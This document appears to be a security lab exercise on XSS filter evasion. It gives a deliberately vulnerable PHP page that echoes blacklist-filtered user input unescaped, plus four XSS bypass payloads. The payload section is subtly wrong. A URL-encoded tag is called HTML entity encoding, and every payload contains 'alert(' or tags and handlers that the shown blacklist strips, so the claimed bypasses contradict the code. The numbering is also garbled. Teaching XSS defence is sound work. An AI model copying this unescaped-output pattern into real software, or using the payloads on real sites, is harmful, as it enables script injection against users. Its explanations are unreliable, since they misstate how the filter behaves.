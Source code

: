 # Write A Web Application With Insecure XSS Filters
An insecure XSS filter occurs when an application fails to properly validate user input, allowing attackers to inject malicious code into web pages. Some developers use blacklists to block dangerous strings like "<script" or "onload=" but often miss edge cases, leaving the application vulnerable to XSS attacks.

## References
- [OWASP - XSS Filter Evasion Cheat Sheet](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet) by OWASP

## Tasks
- Write a simple web application containing multiple input fields that are vulnerable to cross-site scripting
- Apply insecure filtering mechanisms to these input fields, such as a blacklist that attempts to block commonly known dangerous XSS keywords
- Develop a blacklist containing at least 30 dangerous XSS keywords (e.g., "<script>", "onload=", "alert(", etc.) that you plan to use to try and protect the input fields
- Use various XSS techniques, such as HTML encoding, JavaScript obfuscation, and bypassing blacklist filters, to inject malicious JavaScript code into the input fields
- Verify that the injected malicious JavaScript code is executed on the web application's frontend, demonstrating the bypass of the insecure XSS filters

## Steps With Solutions
1. PHP for vulnerable web application:
   ```
    <!DOCTYPE html>
    <html lang="en">
    <head>
        <meta charset="UTF-8">
        <meta name="viewport" content="width=device-width, initial-scale=1.0">
        <title>XSS Vulnerable Web Application</title>
    </head>
    <body>
        <h1>Submit Your Input</h1>
        <form action="" method="POST">
            <label for="user_input">Enter something:</label>
            <input type="text" name="user_input" id="user_input">
            <br><br>
            <button type="submit">Submit</button>
        </form>
    
        <?php
        if ($_SERVER['REQUEST_METHOD'] === 'POST') {
            // Get the user input from the form
            $user_input = $_POST['user_input'];
    
            // Blacklist-based filtering (insecure)
            $blacklist = [
                "<script>", "</script>", "onload=", "onerror=", "alert(", "javascript:", "<img", "<iframe", "<svg", "<a", "<div", 
                "<body", "<object", "<embed", "style=", "expression(", "document.cookie", "window.location", "eval(", 
                "setTimeout(", "setInterval(", "localStorage", "sessionStorage", "innerHTML", "outerHTML", "write(", "onmouseover=",
                "onfocus=", "onclick=", "onblur=", "onchange=", "onkeypress=", "onkeydown=", "onkeyup="
            ];
    
            // Replace blacklisted strings with an empty string (insecure filter)
            foreach ($blacklist as $dangerous_string) {
                $user_input = str_ireplace($dangerous_string, '', $user_input);
            }
    
            // Display the filtered user input (vulnerable to XSS)
            echo "<h2>Output:</h2>";
            echo "<p>" . $user_input . "</p>";
        }
        ?>
    </body>
    </html>
    ```
2. Insecure XSS filtering mechanism
- The PHP code retrieves the user input and processes it through a blacklist-based filter.
- The blacklist contains common XSS vectors (like <script>, onload=, etc.) which are removed from the user input.
- This method is insecure because:
  - It only removes known keywords, leaving edge cases and obfuscated payloads unfiltered.
  - Blacklist filtering can be bypassed by encoding, escaping, or obfuscating payloads.
3. Testing bypasses in the application with XSS payloads
    1. HTML Entity Encoding Bypass:
       `<scr%69pt>alert('XSS')</scr%69pt>`
       - The filter might not decode the `%69`, allowing the script to bypass the filter
2. Broken-Up Script Tags:
       `<scr<script>ipt>alert('XSS')</scr<script>ipt>`
       - By splitting up the `<script>` tag, the filter might not catch the malicious code
3. Onerror Event in an Image:
       `<img src=x onerror=alert('XSS')>`
       - Using event handlers like onerror, you can inject code via HTML elements
4. JavaScript Obfuscation:
       `<svg/onload=alert('XSS')>`
       - SVG tags are often overlooked by filters, and the event handler can still execute the script
